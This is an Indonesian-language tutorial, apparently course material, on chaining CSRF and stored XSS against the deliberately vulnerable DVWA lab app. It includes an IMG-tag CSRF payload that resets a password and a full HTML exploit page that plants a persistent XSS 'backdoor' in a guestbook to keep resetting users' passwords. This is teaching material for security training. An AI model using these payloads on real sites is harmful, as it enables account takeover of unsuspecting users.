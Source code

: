 # Exploit Chain (CSRF + XSS)

Created: June 22, 2022 1:17 PM

Serangan tidak hanya berbicara tentang satu celah yang di eksploitasi. Jika kita menemukan beberapa celah pada aplikasi kita bisa mengkombinasikannya untuk mendapatkan vektor serangan yang beragam.

Sebagai contoh pada pertemuan sebelumnya kita sudah tahu bahwa DVWA memiliki celah sebagai berikut :

## XSS Stored

Sedangkan untuk CSRF hampir semua halaman DVWA tidak mencegah adanya serangan CSRF. Termasuk pada URL [http://vuln.cilsy.id:31333/vulnerabilities/csrf/](http://vuln.cilsy.id:31333/vulnerabilities/csrf/) yang merupakan halaman untuk mengganti password login. Karena tidak ada form untuk validasi password lama tentu ini akan rentan terhadap celah CSRF.

[https://lh4.googleusercontent.com/XoPudeZhkm4GL8csNZb428xJcrl8OxTYhgKeRX3LTbki5hUhQC0-BdwIn-PgJPmX8ewjetl6no8KxxjMTdOlglUcmMzdIdUZRVNUFOztXZ-Rb3KoGQtu3_S3ybX2vzhgyoySAC4fEI9phmABdltLnaLJ7yI](https://lh4.googleusercontent.com/XoPudeZhkm4GL8csNZb428xJcrl8OxTYhgKeRX3LTbki5hUhQC0-BdwIn-PgJPmX8ewjetl6no8KxxjMTdOlglUcmMzdIdUZRVNUFOztXZ-Rb3KoGQtu3_S3ybX2vzhgyoySAC4fEI9phmABdltLnaLJ7yI)

Gambar: Penggantian password DVWA yang tertangkap dengan Burp

Dari gambar diatas terlihat jelas bahwa HTTP request hanya menggunakan method GET. Artinya cukup menggunakan tag IMG kita sudah bisa mengeksploitasinya.  Berikut contoh CSRF exploit yang sesuai dengan gambar diatas :

```html
<img src="http://vuln.cilsy.id:31333/vulnerabilities/csrf/?password_new=password123&password_conf=password123&Change=Change"/>
```

Ketika user memuat element IMG diatas web browser akan mengakses URL tersebut. Dan ternyata URL tersebut untuk mengganti password. Alhasil pengguna meminta password baru tanpa dia sadari.

## **Proof Of Concept**

Nah pada materi diatas kita sudah bisa menemukan kerentanan CSRF pada DVWA selanjutnya kita akan menggunakan attack chain untuk mengkombinasikan XSS dan CSRF. Berikut konsep serangan yang akan kita lakukan :

- Penyerang tidak memiliki akses langsung ke dalam DVWA
- Untuk mendapatkan akses, penyerang harus mengeksploitasi CSRF untuk mengganti password dan memanfaatkan XSS
- Untuk secara langsung menanamkan backdoor XSS, pada halaman exploit CSRF tidak hanya mengganti password tapi juga mengirimkan XSS payload sebagai backdoor ke halaman guestbook
- Pada nomor 3 backdoor payload XSS yang diberikan merupakan exploit CSRF untuk mengganti password
- Sehingga diharapkan ketika user berhasil mengatur password ulang untuk mengembalikan akses dari penyerang, setiap user membuka guestbook maka password akan diganti sehingga penyerang bisa mendapatkan akses login kembali.

Dari konsep serangan diatas berikut exploitnya :

```html
<html>

<head>
  <title>GuestBook Exploit</title>
</head>

<body>
  <iframe style="display:none" name="csrf-frame"></iframe>
  <form id="idForm" action="http://vuln.cilsy.id:31333/vulnerabilities/xss_s/" target="csrf-frame" method="POST">
  	<input type="hidden" name="txtName" value="XSS Backdoor" />
  	<input type="hidden" name="mtxMessage" value="CSRF Exploit" />
  	<input type="hidden" name="btnSign" value="Sign Guestbook" />
  	<input type="submit" style="visibility:hidden" />
  </form>
  <script>
  	var csrf_set_password = '<img src="http://vuln.cilsy.id:31333/vulnerabilities/csrf/?password_new=password123&password_conf=password123&Change=Change"/>';
  	document.getElementsByName("mtxMessage")[0].value = csrf_set_password;
  	document.getElementById("idForm").submit();
  	document.write(csrf_set_password);
  	alert("Exploit sudah selesai dijalankan!")
  </script>
</body>
```